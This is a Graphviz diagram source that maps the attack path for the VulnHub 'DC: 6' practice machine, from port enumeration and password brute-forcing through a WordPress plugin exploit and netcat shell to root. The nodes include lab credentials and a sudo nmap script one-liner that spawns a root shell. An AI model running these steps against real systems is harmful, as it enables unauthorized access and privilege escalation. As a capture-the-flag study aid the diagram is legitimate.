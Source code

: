 digraph G {
  #rankdir=LR;
  nodesdictep=1.0; splines="ortho"; K=0.6; overlap=scale; fixedsize=true; resolution=72; bgcolor="#ffffff"; outputorder="edgesfirst";
  node [fontname="courier" fontsize=18 shape=box width=0.25 fillcolor="white" style="filled,solid"];
  edge [style=solid color="#665957" penwidth=0.75 arrowhead=vee arrowsize=0.75 ];

  0[label="192.168.92.170" color="#0077cc" fillcolor="#e1ecf4" tooltip="[VulnHub] DC: 6"];
  10[label="netcat: www-data" color="#cea51b" fillcolor="#fbf2d4" tooltip="Phase #2:Exploitation"];
  11[label="Phase #3: Privilege Escalation" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  12[label="/var/www/html/wp-config.php" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  13[label="mysql: wpdbuser/meErKatZ" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  14[label="mysql" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  15[label="select user_login, user_pass from wp_users;" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  16[label="/home/mark/stuff/things-to-do.txt" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  17[label="ssh: graham/GSo7isUM1D4" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  18[label="shell: graham" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  19[label="/home/jens/backups.sh" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  1[label="Phase #1: Enumeration" color="#3d8f58" fillcolor="#dcf0e2" tooltip="Phase #1:Enumeration"];
  20[label="sudo -u jens /home/jens/backups.sh" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  21[label="shell: jens" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  22[label="echo os.execute('/bin/bash') >nse && sudo nmap --script=nse" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  23[label="shell: root" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  24[label="/root/theflag.txt" color="#c02d2e" fillcolor="#f9d3d7" tooltip="Phase #3:Privilege Escalation"];
  2[label="22/tcp" color="#3d8f58" fillcolor="#dcf0e2" tooltip="Phase #1:Enumeration"];
  3[label="80/tcp" color="#3d8f58" fillcolor="#dcf0e2" tooltip="Phase #1:Enumeration"];
  4[label="wordpress" color="#3d8f58" fillcolor="#dcf0e2" tooltip="Phase #1:Enumeration"];
  5[label="hydra: mark/helpdesk01" color="#3d8f58" fillcolor="#dcf0e2" tooltip="Phase #1:Enumeration"];
  6[label="Phase #2: Exploitation" color="#cea51b" fillcolor="#fbf2d4" tooltip="Phase #2:Exploitation"];
  7[label="wordpress: activity monitor plugin" color="#cea51b" fillcolor="#fbf2d4" tooltip="Phase #2:Exploitation"];
  8[label="wpscan: mark/helpdesk01" color="#3d8f58" fillcolor="#dcf0e2" tooltip="Phase #1:Enumeration"];
  9[label="edb:45274" color="#cea51b" fillcolor="#fbf2d4" tooltip="Phase #2:Exploitation"];

  subgraph cluster_0 {
    node [style="filled,solid"];
    label = "[VulnHub] DC: 6";
    color = "#665957";
    0 -> 1 [color="#665957"];
    1 -> 2 [color="#665957"];
    1 -> 3 [color="#665957"];
    10 -> 11 [color="#665957"];
    11 -> 12 [color="#665957"];
    11 -> 16 [color="#665957"];
    12 -> 13 [color="#665957"];
    13 -> 14 [color="#665957"];
    14 -> 15 [color="#665957"];
    16 -> 17 [color="#665957"];
    17 -> 18 [color="#665957"];
    18 -> 19 [color="#665957"];
    19 -> 20 [color="#665957"];
    20 -> 21 [color="#665957"];
    21 -> 22 [color="#665957"];
    22 -> 23 [color="#665957"];
    23 -> 24 [color="#665957"];
    3 -> 4 [color="#665957"];
    4 -> 5 [color="#665957"];
    4 -> 8 [color="#665957"];
    5 -> 6 [color="#665957"];
    6 -> 7 [color="#665957"];
    7 -> 9 [color="#665957"];
    8 -> 6 [color="#665957"];
    9 -> 10 [color="#665957"];
  }
}
